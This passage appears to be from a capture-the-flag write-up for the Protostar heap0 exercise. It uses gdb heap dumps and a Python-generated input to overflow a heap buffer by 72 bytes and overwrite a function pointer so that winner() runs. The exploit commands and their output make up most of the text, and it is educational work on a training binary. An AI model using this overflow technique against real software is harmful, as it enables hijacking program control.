 ```shell
(gdb) x/50x 0x804a000
0x804a000:      0x00000000      0x00000049      0x41414141      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a080:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a0c0:      0x00000000      0x00000000
```

We also see that the address of the `nowinner()` function is stored on the
heap due to `f->fp = nowinner`.

```shell
(gdb) print &nowinner
$1 = (void (*)(void)) 0x8048478 <nowinner>
```

We can overwrite that address with the address of `winner()` which will then
be executed by `f->fp()`. Looking at the heap layout, we can see that we need
to write 72 bytes followed by `winner()`'s memory address.

```shell
(gdb) run `python -c "print 'A'*72 + 'BBBB'"`
Starting program: /opt/protostar/bin/heap0 `python -c "print 'A'*72 + 'BBBB'"`
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```

We find the memory address of `winner()`.

```shell
(gdb) print &winner
$1 = (void (*)(void)) 0x8048464 <winner>
```

Putting everything together,

```shell
user@protostar:~$ /opt/protostar/bin/heap0 $(python -c "print 'A'*72 + '\x64\x84\x04\x08'")
data is at 0x804a008, fp is at 0x804a050
level passed
```

# heap 1

We are given the below source code.
